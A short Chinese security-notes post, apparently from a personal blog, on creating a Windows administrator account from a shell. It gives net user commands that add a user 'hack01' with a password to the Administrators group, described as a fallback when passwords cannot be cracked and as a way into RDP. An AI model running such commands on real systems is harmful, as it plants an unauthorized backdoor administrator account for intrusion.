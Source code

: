 ```yaml
---
title: 通过shell创建管理员用户
published: 2025-03-09 16:40:49
tags: [内网安全,提权思路]
category: 安全
draft: false
---
```


# 通过shell创建管理员用户

```python
net user
net user hack01 1324@cbD /add
net localgroup Administrators hack01 /add
net user 
```

可以在密码破解不出来的时候使用，也可以用来进行登录`RDP` ，前提是拥有权限